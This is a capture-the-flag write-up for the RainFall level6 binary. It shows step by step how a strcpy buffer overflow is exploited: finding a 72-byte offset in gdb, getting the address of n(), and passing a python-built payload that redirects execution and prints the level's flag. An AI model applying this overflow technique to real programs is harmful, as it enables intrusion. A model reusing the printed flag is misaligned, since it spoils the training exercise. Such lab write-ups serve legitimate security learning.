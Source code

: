 # Walkthrough

**Main** : 
The goal is to exploit the vulnerability of `strcpy` , filled the buffer until blow the stack frame to force the register `eip` to execute what we want , in our case we wan executed the `n()`

**Process**:  
>   1. Find the offset
>   2. Get address of `n()`
>   3. Pass payload

## Step 1

### Find the offset 

To the find the offset i used a  [Buffer overflow pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/?) 

    (gdb) run Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac
    Starting program: /home/user/level6/level6 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac
    
    Program received signal SIGSEGV, Segmentation fault.
    0x41346341 in ?? ()
    (gdb) 

    (gdb) print &o 
    $1 = (<text variable, no debug info> *) 0x80484a4 <o>

The offset is `0x41346341` = `72` 

## Step 2 
### Get address of `n()`

```
(gdb) print &n
$2 = (<text variable, no debug info> *) 0x8048454 <n>
```
*The address `0x8048454` it convert in little-endian format `\x54\x84\x04\x08`*

## Step 3 

### Step 1 : Load payload
the payload it passed  as parameter<br/>
*The address `0x8048454` it convert in little-endian format `\x54\x84\x04\x08`*
```
level6@RainFall:~$ ./level6 $(python -c 'print "\x90" * 72 + "\x54\x84\x04\x08"')
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```


